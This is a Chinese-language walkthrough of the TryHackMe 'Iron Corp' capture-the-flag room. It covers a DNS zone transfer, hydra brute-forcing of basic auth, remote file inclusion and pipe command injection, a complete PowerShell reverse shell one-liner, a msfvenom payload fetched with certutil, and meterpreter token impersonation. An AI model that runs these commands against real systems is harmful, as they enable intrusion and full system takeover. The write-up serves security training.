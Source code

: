 # Iron Corp

https://tryhackme.com/room/ironcorp

难度：难

不久前，钢铁公司遭受了安全漏洞。

您已被钢铁公司选中对其资产进行渗透测试。他们进行了系统强化，并期望您无法访问他们的系统。

范围内的资产为：ironcorp.me

注意：编辑配置文件并添加 ironcorp.me

你能访问钢铁公司的系统吗？

---

## 端口扫描

循例 nmap扫

    nmap -sS 10.10.91.218 -Pn -p- -T5

    53/tcp    open  domain
    135/tcp   open  msrpc
    3389/tcp  open  ms-wbt-server
    8080/tcp  open  http-proxy
    11025/tcp open  unknown
    49667/tcp open  unknown
    49670/tcp open  unknown

## 目录扫描

web一顿看没啥东西，gobuster扫目录也没扫出什么东西

11025端口也是web，gobuster扫，也是没啥东西

## dns域传送漏洞

回来再看一眼nmap扫描结果，使用dig看看dns

    dig ironcorp.me axfr @10.10.91.218

子域返回来了：

    ; <<>> DiG 9.18.8-1-Debian <<>> ironcorp.me axfr @10.10.91.218
    ;; global options: +cmd
    ironcorp.me.		3600	IN	SOA	win-8vmbkf3g815. hostmaster. 3 900 600 86400 3600
    ironcorp.me.		3600	IN	NS	win-8vmbkf3g815.
    admin.ironcorp.me.	3600	IN	A	127.0.0.1
    internal.ironcorp.me.	3600	IN	A	127.0.0.1
    ironcorp.me.		3600	IN	SOA	win-8vmbkf3g815. hostmaster. 3 900 600 86400 3600

将这两个子域添加到我们的/etc/hosts

在8080端口下这两个子域的内容跟之前的一样

## 身份验证爆破

http://internal.ironcorp.me:11025/ 禁止访问

http://admin.ironcorp.me:11025/ 弹出登录框

回到这个页面有用户名

    http://ironcorp.me:8080/profile.html

打开burp抓包刚刚登录框

抓到的包的部分请求头：

    Authorization: Basic YWRtaW46YWRtaW4=

base64解码后，确认这就是我们登录的凭据

    admin:123456

由于前面的网页中我们看见了mark用户，所以我们选择爆破mark

hydra -l mark -P /usr/share/wordlists/rockyou.txt -f admin.ironcorp.me -s 11025 http-get /

好像爆不出来，也没别的信息了，再尝试爆最有可能的admin

靶机不知道怎么回事，被扫爆了还是怎么着，炸了，平台那边关也关不掉，害我白等一小时

爆admin:

    hydra -l admin -P /usr/share/wordlists/rockyou.txt -f admin.ironcorp.me -s 11025 http-get /

出来结果了：

    [11025][http-get] host: admin.ironcorp.me   login: admin   password: ********

## RFI（远程文件包含）

登录进去是一个“查询框”，尝试了几遍，确定存在RFI

尝试远程包含shell：

    view-source:http://admin.ironcorp.me:11025/?r=http://10.14.39.48:8000/linux-tools_and_exp/php_simple_cmd.php

尝试了好几种，都不行，它仅仅读取文件内容。貌似并不会将其执行

我们在上面有一个禁止访问的url，尝试一下看看能不能越权访问到：

    http://admin.ironcorp.me:11025/?r=http://internal.ironcorp.me:11025/

果然可以，我们得到了：

    http://internal.ironcorp.me:11025/name.php?name=

这个也是拒绝访问，没关系，我们继续通过RFI访问

fuzzing一些符号，有一些符号有猫腻：

    ||、&&、|

这些符号很熟悉，因为它能够帮助我们执行命令。

使用“|”管道符，将前一个命令输出作为后一个命令的输入，它将能显示输出我们执行的命令结果，验证：| whoami

    My name is:

	    nt authority\system

## Reverse Shell

payload:

    powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.14.39.48',8888);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

成功getshell

注意，我们需要进行两次url编码，否则该payload将无法生效，因为有空格

<pre><font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">nc</font> <font color="#9755B3">-vlnp</font> 8888                
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::8888
Ncat: Listening on 0.0.0.0:8888
Ncat: Connection from 10.10.8.68.
Ncat: Connection from 10.10.8.68:50313.
whoami
nt authority\system
PS E:\xampp\htdocs\internal&gt; 
</pre>

靶机又崩了，还好这次可以正常重启靶机

user.txt在C:\users\administrator\desktop

## Token模拟

msfvenom生成meterpreter的reverse shell

    msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.14.39.48 lport=8889 -f psh > she11.ps1

上传到目标机器：

    certutil -urlcache -split -f "http://10.14.39.48:8000/she11.ps1"

目标运行：

    . .\she11.ps1

成功

加载incognito模块

    load incognito

查看可用的user token:

    list_tokens -u

模拟：

    impersonate_token "WIN-8VMBKF3G815\Admin"

root.txt在C:\Users\Admin\Desktop下
